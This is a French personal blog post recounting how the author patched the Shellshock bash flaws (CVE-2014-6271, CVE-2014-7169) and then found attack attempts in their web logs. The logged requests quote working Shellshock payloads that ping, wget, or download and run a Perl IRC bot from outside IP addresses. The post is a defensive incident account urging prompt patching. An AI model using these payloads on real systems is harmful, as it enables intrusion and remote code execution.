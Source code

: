 ---
layout: post
title: Shellshock, c'est passé à un cheveu
tags: serveur bash
---

Retour à hier matin, jeudi 25/9 matin, 9h05, Paris, France.

Comme tous les jours, je rafraîchis mon aggrégateur RSS en marchant vers le métro, et je lis vite tous les titres pour pré-charger les articles à lire avant que je n'aie quasiment plus de connectivité en entrant dans les boîtes à sardine.

Sur Arstechnica, il y a l'article suivant [Bug in Bash shell creates big security hole on anything with \*nix in it](http://arstechnica.com/security/2014/09/bug-in-bash-shell-creates-big-security-hole-on-anything-with-nix-in-it/). *scroll* *scroll* *scroll* ... 5 secondes de lecture en diagonale, et je capte "exploitable à distance" et "pleins de manières de le déclencher" (web server, dhcp, login, etc etc).

C'est du lourd, et facile à déclencher : ça fait donc environ 10-12h que "c'est connu", il faut réagir très vite. *Si c'est pas déjà trop tard !*

<!--more-->

== Patch et re-patch

Je m'arrête de marcher, histoire de garder du réseau. Je dégaine [ConnectBot](https://play.google.com/store/apps/details?id=org.connectbot) pour me connecter sur mon serveur chez OVH, puis sur mon serveur de fichier à domicile.

Cing minutes après, il est 9h14, et mes serveurs et VM sont patchées.

	Start-Date: 2014-09-25  09:14:53
	Commandline: apt-get dist-upgrade -y
	Upgrade: bash:amd64 (4.2+dfsg-0.1, 4.2+dfsg-0.1+deb7u1)
	End-Date: 2014-09-25  09:15:04

A noter que j'ai commencé par les serveurs web, les articles reprenant l'utilisation d'appels CGI comme exemple principal : logique, c'est le point d'entrée le plus "facilement accessible".

Je continue mon chemin et ma journée en pensant "*job's done*" ([CVE-2014-6271](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271))

Retour à ce matin, vendredi 26/9, 9h20 à Paris. Comme hier, je rafraîchis ma brouette de RSS, et là *ouch*, un autre article [Arstechnica](http://arstechnica.com/security/2014/09/concern-over-bash-vulnerability-grows-as-exploit-reported-in-the-wild/). Ils n'ont pas l'habitude de faire plusieurs articles pour le plaisir, alors je l'ouvre tout de suite, ça sent mauvais...

Grand bien me fasse, j'apprends que :
- le premier patch n'a bouché le trou des variables d'environnement
- le premier bug est déjà massivement exploité dans la nature

Pire encore :
- il restait deux bugs de [Buffer overrun](https://fr.wikipedia.org/wiki/D%C3%A9passement_de_tampon) exploitables (qui viennent d'être patchés)
- je ne sais pas encore si ces deux bugs sont déjà exploités (plus compliqué que le premier, donc j'évalue *a priori* que non)

Il est 9h39, et à nouveau, mes serveurs et VM sont à jour (à nouveau, je commence par les serveurs web). Ca y est, c'est bon le deuxième bug sus-cité est lui aussi patché ([CVE-2014-7169](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-7169))

	Start-Date: 2014-09-26  09:39:04
	Upgrade: bash:amd64 (4.2+dfsg-0.1+deb7u1, 4.2+dfsg-0.1+deb7u3)
	End-Date: 2014-09-26  09:39:11

Bon, à nouveau, je me dis "ok, tout est sous contrôle". Mais je me dis aussi que c'est suffisement mauvais (et j'ai été suffisement lent hier) pour qu'il y ait un risque que j'aie été infecté... ça vaudrait la peine de regarder dans les logs.

== C'est passé à un cheveu ?

Après avoir lu dans le métro  les commentaires d'un article [slashdot](http://slashdot.org/story/14/09/25/1757208/flurry-of-scans-hint-that-bash-vulnerability-could-already-be-in-the-wild) sur le sujet, je décide de vérifier si mon/mes serveurs web ont été ciblés par les tentatives d'attaque du premier bug. 

A noter que mon serveur est un serveur personnel à très petit traffic, et donc il n'y a donc que peu de chance que je sois une cible "privilégiée", mais par contre il y a toutes les chances que je me prenne des tentatives.

Et clairement c'est le cas, j'ai reçu des attaques !

Le premier attaquant est arrivé 3h20 après que j'ai patché (*soit seulement 13h après l'article !*)

	89.207.135.125
	 [25/Sep/2014:12:37:09 +0200]
	  "GET /cgi-sys/defaultwebpage.cgi HTTP/1.0"
	   "() { :;};
	    /bin/ping -c 1 198.101.206.138"

Je n'étais déjà plus vulnérable, mais dans tous les cas sa première action a été de simplement vérifier si mon serveur était vulnérable (auquel cas j'aurais envoyé un ping à une de ses machines). C'est une bonne manière de "camoufler ses traces" : les machines vulnérables n'ont aucune information sur "ce qui se serait passé si j'étais vulnérable".

Le deuxième attaquant est arrivé 11h après que j'ai patché (24h après l'article)

	82.165.144.187
	 [25/Sep/2014:20:23:17 +0200]
	  "GET /cgi-sys/defaultwebpage.cgi HTTP/1.1"
	   "() { :; };
	    /usr/bin/wget 82.165.144.187/bbbbbbbbbbbb"

Il a aussi tenté d'exploiter le premier bug, et pour ce faire a tenté de faire télécharger un fichier à mon serveur. Actuellement, j'obtiens une erreur 404, donc soit le fichier n'est plus disponible, soit l'attaquant utilise une requête HTTP plutôt qu'un ping pour recenser les cibles vulnérables.

Le troisième attaquant est arrivé ce matin, et était bien plus évolué et offensif que les précédent :

	63.131.141.125
	 [26/Sep/2014:04:15:47 +0200]
	  "GET /cgi-bin/php.fcgi HTTP/1.0"
	  "GET /fcgi-php/php HTTP/1.0"
	  "GET /cgi-bin/php.fcgi HTTP/1.0"
	  "GET /fcgi-php/php HTTP/1.0"
	   "() { :;};
	    /bin/bash -c \"
	     wget -O /var/tmp/wow1 208.118.61.44/wow1;
	     perl /var/tmp/wow1;
	     rm -rf /var/tmp/wow1\" "

Alors là : d'une part il essaie plusieurs URL afin de déclencher un process CGI, et d'autre part il essaie d'infecter sans phase de recensement : en effet, il upload un script perl, l'exécute et nettoie derrière lui. Pour information, le script Perl en question est visible sur [PasteBin](http://pastebin.com/wZb9L2CW).

Il s'agit d'un client IRC qui permet de 
- récupérer des infos système de la cible
- flooder/scanner les réseaux voisins
- de récupérer des fichiers du serveur
- envoyer du mail
- et bien sûr exécuter n'importe quel programme

Bref, simple mais efficace.

== La morale de cette histoire ?

J'ai eu de la chance... car il n'aura fallu que 13h après la publication d'une faille et que je voie de vraies tentatives arriver, et j'ai pu patcher entre temps.

Mon conseil ? 
- Même si on y comprend rien, se tenir informé permet de gagner du temps
- Toujours patcher son système *rapidement*, car "quelques heures" c'est déjà long !

Il existe des outils qui regardent si des mises à jour sont disponibles ([apticron](http://www.debian-administration.org/article/491/Automatic_package_update_nagging_with_apticron) par exemple) : ils sont extrêmement utiles pour être prévenus des upgrades dispo, **et** pour savoir s'il est urgent ou pas de les installer. C'est bien, mange-en !

